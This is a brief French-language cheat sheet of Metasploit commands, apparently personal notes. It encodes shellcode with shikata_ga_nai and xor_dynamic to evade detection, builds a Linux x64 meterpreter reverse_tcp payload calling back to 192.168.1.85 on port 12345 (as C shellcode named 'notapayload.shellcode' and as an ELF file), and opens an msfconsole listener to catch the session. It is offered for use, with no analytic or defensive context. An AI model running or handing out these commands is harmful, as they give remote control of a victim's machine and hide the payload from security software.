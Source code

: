 ##Commande msfvenom : 

x86:
`msfvenom -e x86/shikata_ga_nai --platform Linux -i 10 -f c -a x86 -o asm01_x86.shellcode < asm01.bin`

x64:
`msfvenom -e x64/xor_dynamic --platform Linux -i 10 -f c -a x64 -o asm01_x64.shellcode < asm01.bin`

générer un reverse shell (shellcode) : `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.85 LPORT=12345 -f c > notapayload.shellcode`

générer un reverse shell: `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.85 LPORT=12345 -f elf > shell.elf`
and launch it with `./shell.elf` (dont forget a chmod u+x ./shell.elf)

ouvrir un listener : `msfconsole -q` > `set payload linux/x64/meterpreter/reverse_tcp` >
`set lhost 192.168.1.85` > `set lport 12345` > `run`